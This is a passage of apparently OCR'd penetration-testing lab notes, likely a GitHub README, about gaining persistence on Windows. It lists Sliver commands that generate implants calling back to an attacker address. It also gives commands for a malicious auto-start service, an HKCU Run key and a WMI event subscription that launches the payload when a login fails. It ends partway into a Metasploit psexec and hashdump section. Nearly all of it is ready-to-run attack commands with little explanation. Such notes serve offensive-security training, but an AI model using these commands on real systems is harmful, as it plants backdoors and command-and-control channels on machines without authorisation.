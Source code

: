 # Persistence
### Generate Payloads
* linux
    * generate payloads with sliver
    ```
    generate --os windows --arch 64bit --skip-symbols --format service --name service --http https://LINUX_ETH0_ADDRESS
    generate --os windows --arch 64bit --skip-symbols --format exe --name payload --http https://LINUX_ETH0_ADDRESS
    ```

### Service Persistence
* windows
    * create a service (admin cmd and need to reboot)
    ```
    sc create persist binpath= "c:\Users\sec560\Desktop\service.exe" start= auto
    ```

### HKCU Run Persistence
* windows
    * create the reg key for the current user (standard cmd)
    ```
    reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "User Persist" /t REG_SZ /F /D "C:\Users\sec560\Desktop\payload.exe"
    ```

### WMI Event Filter Persistence
* windows
    * create (admin powershell)
    ```
    $filter = Set-WmiInstance -Namespace root/subscription -Class __EventFilter -Arguments @{EventNamespace = 'root/cimv2'; Name = "UPDATER"; Query = "SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_NTLogEvent' AND Targetinstance.EventCode = '4625' And Targetinstance.Message Like '%fakeuser%'"; QueryLanguage = 'WQL'}
    $consumer = Set-WmiInstance -Namespace root/subscription -Class CommandLineEventConsumer -Arguments @{Name = "UPDATER"; CommandLineTemplate = "C:\Users\sec560\Desktop\payload.exe"}
    $FilterToConsumerBinding = Set-WmiInstance -Namespace root/subscription -Class __FilterToConsumerBinding -Arguments @{Filter = $Filter; Consumer = $Consumer}
    ```
* linux
    * attempt to login with smbclient
    ```
    smbclient '\\WINDOWS_ETHERNET0_ADDRESS\c$' -U fakeuser fakepass
    ```
<br>

# MSF psexec, hashdumping, and Mimikatz (Need Admin User and Password)
## Metasploit
### Launch Metasploit and get the NT hash
* linux
    * start msfconsole
    ```
    msfcosole
    no
    yes
    ```
    * choose the psexec exploit module (admin user)